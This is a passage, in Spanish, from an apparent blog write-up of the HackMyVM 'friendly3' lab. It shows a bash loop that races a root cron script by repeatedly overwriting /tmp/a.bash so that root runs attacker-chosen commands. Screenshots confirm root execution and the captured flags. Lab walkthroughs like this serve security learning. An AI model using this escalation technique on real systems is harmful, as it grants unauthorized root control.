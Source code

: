 Sisisisi, `root` está ejecutando el script cada minuto (bueno, en la captura no se ve el tiempo, pero ya lo saben :P), así que intentemos ser más rápidos que él y hagámonos dueños del sistema.

## ¿Carreritas o qué? [📌](#friendly3-escalada-racecondition) {#friendly3-escalada-racecondition}

Nos creamos un script que genere el archivo `/tmp/a.bash` infinidad de veces, solo hasta que lo interrumpamos. El contenido del archivo como parte de la prueba será que al ser ejecutado, guarde el resultado del comando `id` es el objeto `/tmp/epale.txt`:

```bash
juan@friendly3:~/things$ cat race_curlandbash.sh 
```

```bash
#!/bin/bash

while true
do
    echo "id > /tmp/epale.txt" > /tmp/a.bash
done
```

```bash
juan@friendly3:~/things$ ./race_curlandbash.sh 
```

Y lo dejamos ahí, incluso podemos mediante **SSH** obtener otra terminal y desde ahí monitorear que va pasando.

Recuerda, cada minuto es ejecutado el script, por lo que después de un tiempo:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/friendly123/Friendly123_friendly3_bash_juanSH_raceconditionDONE_epaleTXT.png" style="width: 100%;"/>

EEEEEEEEEEEEEESOOOOOOOOOOOOO! Estamos ejecutando comandos como `root`, ahora a hacer la tarea (:

# Post Explotación (F3) [#](#friendly2-post-explotacion) {#friendly2-post-explotacion}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/friendly123/Friendly123_friendly3_flags.png" style="width: 100%;"/>

Y liiiiiiiistos, somos amos y dueños de la máquina (:

...

***Y amos y dueños de toooodas las máquinas!***

¿Qué tal te pareció el lab? Lindas máquinas para empezar en este mundo, todo bien "amigable" 🤗

Espero haberme hecho entender con los conceptos, sobre todo con el tema del **pivoting**, igual cualquier duda nos vemos en el Discord del S4vi.

Y bueno, ya me marcho, a dormir bien sabroso, después de este montón de texto 👓

¡A seguir rompiendo de todoooooooooooo!